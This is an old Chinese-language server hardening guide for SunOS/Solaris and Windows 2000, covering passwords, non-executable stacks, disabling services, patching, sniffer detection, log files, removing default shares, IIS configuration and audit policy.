安全配置一个Sun OS服务器很简单，只需以下几个手段就可把系统配置得相对安全些。

1. 消除系统里的弱口令用户帐号，定期修改口令，防止黑客嗅探和提升权限；
2. 防止堆栈溢出；
3. 关闭不用的服务和无用的端口；
4. 给系统打补丁。


1. 对于这个问题，还需Root和各用户之间配合，防止弱口令出现，把问题降低到最低。
2. 有效的办法就是用passwd和npasswd，这两个程序可用于检查Unix上的弱口令用户。


Linux及Sun OS等系统的大部分安全问题都来自“堆栈溢出”。攻击者通过给一个以Root身份运行的程序提供比它预期的输入多得多的东西，使被攻击程序无法处理而改变执行流程去执行攻击者指定的代码。

因为Solaris7以上版本都具备把用户堆栈设成不可执行的能力，导致这种攻击不能成功，所以大家最好把系统提升到Solaris7或Solaris8。如果使用Solaris7以下的版本，那么就要对其做以下防护措施。

1. 因为这里要对/etc/system进行编辑操作，所以要使用Root进行操作。
2. 给/etc/system文件进行备份，以防编辑失败。方法：

```
cp /etc/system /etc/system.BACKUP
```

3. 用VI编辑器编辑/etc/system，到文件的最后，插入以下几行：

```
set noexec_user_stack=1
set noexec_user_stack_log=1
```

4. 保存文件，重新启动后这些改变就会生效。以后就不用怕堆栈溢出了。

### 关闭不需要的服务和无聊的端口

首先给大家介绍一个文件——inetd.conf，这个文件跟系统开的服务和端口有直接联系，所以我们要在inetd.conf中关闭无用的服务和端口。

1. 跟上面一样，不过这里要对/etc/inetd.conf进行编辑操作，所以先把当前用户切换到Root状态。
2. 给/etc/inetd.conf做备份：

```
cp /etc/inetd.conf /etc/inetd.conf.BACKUP
```

3. 编辑/etc/inetd.conf文件，未被激活的服务在前面被“#”符号注释掉。举个例子，要想停止某个服务，只需在服务名前加上“#”即可。如果不想让系统开放FTP服务，就在FTP服务前加上“#”。

例如：

```
# ftp stream tcp nowait root /usr/sbin/in.ftpd
```

### 给系统打补丁

跟所有操作系统一样，Sun OS也有漏洞。它的重大漏洞可让攻击者直接得到Root权限。所以常打补丁绝对不能忽视，下面我教大家如何给Solaris7打补丁。

首先解压补丁包：

```
unzip 7*Recommended.zip
```

其次，把所有单个补丁移到你建立的Recommended目录：

```
mv 1* *Recommended
```

然后，进到保存有全部补丁的Recommended目录：

```
cd *Recommended
```

现在，所有补丁都准备好了，关闭计算机：

```
/usr/sbin/shutdown -y -g0 -i0
```

启动到单用户模式，对sparc：

```
boot -s
```

对x86，启动时键入：

```
b -s
```

系统引导后，在提示符后输入root口令后，键入：

```
mountall
```

mount所有的文件系统，然后输入：

```
cd /var/tmp/patch/*Recommended
```

进入保存所有补丁的目录，然后键入以下命令来安装“所有”的补丁：

```
./install_cluster
```

打完补丁后关机重启，输入：

```
/usr/sbin/shutdown -y -g0 -i6
```

当系统入侵发生时，入侵者可在UNIX系统上秘密安装一个网络监视程序，通常称为sniffer（或packet sniffer），用于捕获用户账号和密码信息。对于NT系统，为达到相同目的，更多的使用远程管理程序，检查sniffer是否被安装到系统中的第一步是看是否有进程把任何网络设备置成混杂（promiscuous）模式。如果任一网络设备处于混杂模式，那么系统中就有sniffer程序；如果在发现入侵时就重启机器或在单用户模式下操作，就不可能探测到处于混杂模式的网卡。为此，有些工具可以使用：

```
cpm - UNIX
ftp://coast.cs.purdue.edu/pub/tools/unix/cpm/
ifstatus - UNIX
ftp://coast.cs.purdue.edu/pub/tools/
unix /ifstatus/
(ifconfig -l命令也可报告网卡状态)
```

> 某些合法的网络监视和协议分析器会将网卡置成混杂模式，探测到某块网卡处于混杂模式并不意味着系统中有入侵者的 sniffer 在运行。sniffer 的记录文件大小通常会很快增长，使用诸如 df 之类的工具可确定文件系统的哪部分增长超过预期。记住，df、ifconfig、netstat 这些命令通常在黑客安装 sniffer 程序时被木马替换，要用干净的工具来检查网卡状态。如果系统中发现了 sniffer，强烈建议检查 sniffer 的输出文件，以确定还有哪些主机处于危险境地。处于危险境地的主机是指那些出现在被捕获数据包的目的域中的主机，但如果口令跨系统使用或源目的主机相互信任，则源主机也处于危险境地。

不同版本的 Unix 日志文件的目录是不同的，最常用的目录是：

- /usr/adm 早期版本
- Unix /var/adm 较新版本
- Unix /var/log 用于Solaris, Linux, BSD等
- /etc Unix system V 早期版本

在这些目录或其子目录下，可找到以下日志文件（也许是其中的一部分）：

- lastlog 记录用户最后一次成功登录时间；
- loginlog 不良的登陆尝试记录；
- messages 记录输出到系统主控台以及由 syslog 系统服务程序产生的消息；
- utmp 记录当前登录的每个用户；
- utmpx 扩展的 utmp；
- wtmp 记录每次用户登录和注销的历史信息，wtmpx扩展的 wtmp；
- void.log 记录使用外部介质出现的错误；
- xferkig 记录 Ftp 的存取情况；
- sulog 记录 su 命令的使用情况；
- acct 记录每个用户使用过的命令；
- aculog 拨出自动呼叫记录。

下面按顺序仔细介绍一下。

lastlog文件：Unix在lastlog日志文件中记录每个用户注册进入系统的最后时间，在每次进入系统时，系统会显示出这个时间：

```
login: blackeyes
password: h3110
Last login: Tue Jul 27 09:55:50 on tty01
```

lastlog告诉用户，要核对一下最后注册进入系统的时间是否正确。若系统显示的时间与你上次进入系统的时间不符，说明发生了非授权用户注册，若这种情况发生，用户应马上修改帐户口令，并通知管理员。在每次注册时，lastlog新的内容会冲掉老的内容。

标准版本的Unix没有提供服务程序可以阅读lastlog文件，有些程序可提供这个服务，跟我们这里要谈的东西关系不太大，以后再说。

loginlog文件：Unix system V版本中，可把不成功的登录行为记录在 /var/adm/loginlog 中。要登记不成功的注册行为，可用下列命令建立/var/adm/loginlog文件：

```
#touch /var/adm/loginlog
#chmod 600 /var/adm/loginlog
#chown root /var/adm/loginlog
```

如果你知道一个系统的用户名，而又想猜出密码，/var/adm/loginlog 就会记录你失败的登录尝试，管理员只要看看/var/adm/loginlog 的内容，你的企图就露馅了：

```
#cat /var/adm/loginlog
hacker: from 202.88.88.xx: Tue Jul 27 02:40:50 1999
hacker: from 202.88.88.xx: Tue Jul 27 02:41:50 1999
hacker: from 202.88.88.xx: Tue Jul 27 02:42:50 1999
hacker: from 202.88.88.xx: Tue Jul 27 02:43:50 1999
hacker: from 202.88.88.xx: Tue Jul 27 02:44:50 1999
```

messages 文件记录输出到系统主控台以及由 syslog 系统服务程序产生的消息。

先看看 syslog 问题，syslog 采用可配置的、统一的系统登记程序，随时从系统各处接受 log 请求，然后根据/etc/syslog.conf 中的预设把 log 信息写入相应文件中，邮寄给特定用户或直接以消息的方式发往控制台。值得注意的是，为防止入侵者修改、删除 messages 里的记录信息，可采用打印机记录或跨越网络登记的方式来挫败入侵者的企图。

记录归属（举例）描述：

```
/dev/console send messages to devices 控制台
/var/adm/messages write messages to files 写入/var/adm/messages
@loghost forward messages to a loghost 其他的日志记录服务器
fred,user1 send messages to users 传送消息给用户
* send messages to all logged-in users 传送消息给所有在线用户
```

下面是一个/etc/syslog.conf 的模式：

```
*.notice;mail.info /var/log/notice
*.crit /var/log/critical
kern,mark.debug /dev/console
kern.err @server
*.emerg *
*.alert root,operator
*.alert;auth.warning /var/log/auth
```

如果用打印机来记录日志文件，可采用如下方法：

把打印机连接到终端端口/dev/ttya 上，在/etc/syslog.conf 中加入配置语句，例如：

**auth.* dev/ttya**

这样就可记录如不正确口令等信息了。如果采用跨越网络登记，可在/etc/syslog.conf 中加入配置语句，例如：

**auth.* @loghost**

可采用非 Unix 主机来作为日志记录，这样入侵者就算得到了 Root 权限也没办法修改日志文件。

在/var/adm/messages 中的一些记录，可找出入侵者的痕迹，举例如下：

```
Jun 21 06:17:55 youserver /usr/dt/bin/rpc.ttdbserverd[371]: _Tt_file_system::findBestMount...
Jun 21 06:17:55 youserver inetd[146]: /usr/dt/bin/rpc.ttdbserverd: Segmentation Fault - cod
Jun 21 06:17:58 youserver inetd[146]: /usr/dt/bin/rpc.ttdbserverd: Illegal instruction - cd
```

入侵者利用rpc.ttdbserverd漏洞进攻服务器

2. "Sep 8 09:08:03 xxx login: REPEATED LOGIN FAILURES ON /dev/pts/3 FROM xxxxx"
入侵者采用暴力试口令命令，失败！

3. "Sep 8 09:08:03 xxx su: 'su root' failed for xxxxx on /dev/pts/2"
入侵者想利用su命令成为root，失败！

> 关于.messages，可利用tail -f /var/adm/messages命令来查看

好了，如果按照以上方法简单的对系统进行配置和修改，相信你的系统已达到基本安全了，一般的菜鸟不可能入侵和破坏的！

## Win2000安全配置大全

在当今的网络中，目前使用Win2000系统的服务器比例很多，因为它具有人性化的操作界面，操作简单、容易管理。但这么好的操作系统竟然有“漏洞天王”之称，真是不可思议！

说实话，一台刚安装完的Win2000服务器，不做任何安全防护，也不打补丁，我可用10种以上不同的方法入侵，而且最终得到administrator权限。天啊！Win2000服务器真的这么脆弱吗？是啊，不过大家不用着急，如果对Win2000服务器进行全面的安全设置，它也是很安全的。

### 安全问题

因为Windows系统是美国Bill Hates的专利，所以原版货当然是英文版。如果你在英文方面没有障碍，建议大家使用英文版。为什么呢？

1. 因为中文或其他版本的漏洞比英文版更多，比如中文版本的输入法漏洞不就是一个很大的漏洞吗？
2. 每当一个漏洞被发现，都是由美国发布补丁，所以还不能很快出来中文版的补丁，在这段期间你的服务器很容易遭受攻击。

### 安装系统

要想使系统安全，安装时也需要安全的安装方式：

3. 首先是文件格式问题。因为Win2k以前的版本都是FAT或FAT32格式，但Win2k多了一个NTFS格式，因为NTFS比前两个格式安全得多，对于不同的文件、文件夹设置不同的访问权限。所以建议大家使用NTFS格式。
4. 设置路径的学问也很大，一般Win2k的默认路径是c:\winnt，入侵者都知道吧！哈哈，这就很危险，所以我们要把路径改名或换路径，这样就相对安全多了，在一定程度上加强了对系统的保护。
5. 再就是物理安全了，其实这很容易实现。一定要有专人看护服务器，不让外人接近；把服务器放在单独的工作室，人不在的时候记得门要上锁。

以上是基本安装的安全设置。

### 实战安装

经过以上步骤，该到最关键的地方了——如何安全配置一个Win2000服务器。刚安装完的Win2000 Server极不安全，所以我们要进行以下配置：

#### 删除默认共享

在Win2000 Server中，有默认共享安全问题。例如：C$、D$、Admin$、IPC$……
这些默认共享无疑对系统是个很大的危险，其实解除这种共享很容易，用net share c$ /delete命令就可删除。不过当删除完共享后，重新启动计算机，这些被删除的共享又复原了。那怎么办呢？首先看一下停止默认共享的命令：

```
net share ipc$ /delete
net share admin$ /delete
net share c$ /delete
net share d$ /delete
```

以上命令就是停止默认共享的方法，我们可把这几句话保存在一个.bat的批处理文件里。然后把这个批处理文件放到“开始→启动”文件夹中，这样每次机器开机登陆桌面后，这个批处理文件就会自动启动，然后执行里面的取消默认共享的命令。

#### 端口安全问题

在Win2k中，139端口是万恶端口。因为139端口是NetBios服务，它提供共享服务。在默认安装的情况下，所有的Win2k系统都会自动安装这个服务，而且很多人用不着这个服务。

那我们怎么关闭这个服务呢？
执行“网络邻居→点鼠标右键→本地连接→Internet协议（TCP/IP）→属性→高级→选项→TCP/IP筛选→在“只允许”中填入除了137、138、139外的端口。如果你在局域网中，会影响局域网的使用。
还有最方便的方法是装天网防火墙：选择一条空规则，数据包方向选“接收”；对方IP地址选“任何”；协议TCP；本地端口139到139；对方端口0到0；标志位在SYN标志上打勾；动作拦截。然后把这条规则勾上让它生效，保存即可。

#### IIS（web服务）安全配置

IIS是微软组件中问题最多的一个，平均两三个月就要出一个漏洞，而微软的IIS默认安装又实在不敢恭维，所以IIS的配置是我们的重点。
首先，删除C盘下的Inetpub目录，在D盘建立一个Inetpub，在IIS管理器中将主目录指向D:\Inetpub。
其次，把IIS安装时默认的scripts等虚拟目录也一概删除，如果你需要什么权限的目录可以后再建（特别注意写权限和执行程序的权限）。
然后是应用程序的配置。在IIS管理器中把无用映射都统统删除(当然必须保留如ASP、ASA等)。在IIS管理器中执行“主机→属性→WWW服务编辑→主目录配置→应用程序映射”，然后开始一个个删吧！接着在应用程序调试书签内，将“脚本错误消息”改为“发送文本”。点击“确定”，退出时别忘了让虚拟站点继承刚才设定好的属性。
最后，为保险起见，可使用IIS的备份功能，将刚刚的设定全部备份下来。这样就可随时恢复IIS的安全配置。如果怕IIS负荷过高，导致服务器死机，也可在性能中打开CPU限制，如将IIS的最大CPU使用率限制在70%。

### 帐号安全

首先，Win2K的默认安装允许任何用户通过空用户得到系统所有账号和共享列表，这本是为了方便局域网用户共享资源和文件的，但同时任何一个远程用户也可通过同样的方法得到你的用户列表，并可能使用暴力法破解用户密码给整个网络带来破坏。很多人都只知道更改注册表 Local_Machine\System\Current ControlSet\Control\LSA-RestrictAnonymous = 1 禁止空用户连接，实际上WinK的本地安全策略里（如果是域服务器就在域服务器安全和域安全策略里）就有这样的选项RestrictAnonymous（匿名连接的额外限制），其中有三个值：

```
"0": None. Rely on default permissions （无，取决于默认权限）
"1": Do not allow enumeration of SAM accounts and shares（不允许枚举SAM账号和共享）
"2": No access without explicit anonymous permissions.（没有显式匿名权限就不允许访问）
```

“0”这个值是系统默认的，没有任何限制，远程用户可以知道你机器上所有的账号、组信息、共享目录、网络传输列表(NetServerTransportEnum）等，对服务器来说这样的设置非常危险；“1”这个值是只允许非NULL用户存取SAM账号信息和共享信息；“2”这个值只有Win2K才支持，需注意的是，如果使用了这个值，就不能再共享资源了，所以还是推荐把数值设为“1”比较好。

这里需要注意：Win2K的默认安装是不开任何安全审核的！应该到“本地安全策略→审核策略”中打开相应的审核。需说明的是，审核项目如果太少，想查看记录时就不好办，但审核项目如果太多，不仅会占用大量的系统资源，而且也没那么多时间全部看完，这样就失去了审核的意义。推荐审核如下：

“账户管理”、“登录事件”、“策略更改”、“系统事件”、“账户登录事件”需要把“成功”和“失败”都打开；“对象访问”、“特权使用”、“目录服务访问”就只打开“失败”。

与之相关的还有，在“账户策略→密码策略”中设定：“密码复杂性要求启用”，“密码长度最小值6位”，“强制密码历史5次”，“最长存留期30天”。在“账户策略→账户锁定策略”中设定：“账户锁定3次错误登录”，“锁定时间20分钟”，“复位锁定计数20分钟”等。

Terminal Service的安全日志默认也是不启用的，可以在“Terminal Service Configuration(远程服务配置)→权限→高级”中配置安全审核。一般来说只要记录登录、注销事件就可以了。

以上就是对Win2000系统做的简单安全配置，大家可以参考一下！
